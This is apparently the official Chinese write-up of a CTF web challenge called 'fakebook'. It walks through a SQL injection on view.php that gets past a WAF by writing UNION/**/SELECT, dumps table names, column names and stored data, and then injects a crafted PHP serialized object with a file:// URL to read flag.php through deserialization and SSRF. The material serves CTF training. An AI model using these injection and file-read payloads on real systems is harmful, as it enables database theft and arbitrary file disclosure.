 ### 题目fakebook的官方WP

官方

admin发布于2021-01-12

浏览量3577

举报

# fakebook

## **[目的]**

sql注入+反序列化+LFR

## **[环境]**

linux

## **[工具]**

Firefox

### 一：

注册后扫描目录发现：/robots.txt

测试发现/view.php?no=1 参数存在SQL注入，但是union select被waf拦截了

尝试绕过

```
爆表名
/view.php?no=-6 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
爆列名
/view.php?no=-6 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema=database()#
爆字段
/view.php?no=-6 union/**/select 1,data,3,4  from users#
```

结果是一个序列化的值

大概的思路为，我们输入的信息被保存为序列化，读取的时候会从数据库中取出并反序列化，然后显示在blog界面。 、

function get($url)获取的blog连接，如果连接失败就404，否则读取文件信息。

所以我们可以通过反序列化来实现ssrf读取任意文件，构造我们想要的路径，然后为了绕过正则，不从注册登录的地方下手，直接人为构造联合查询返回语句，data字段在第四个位置。

`/view.php?no=0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'`  
在源代码中得到flag的base64编码，解码后得到flag值





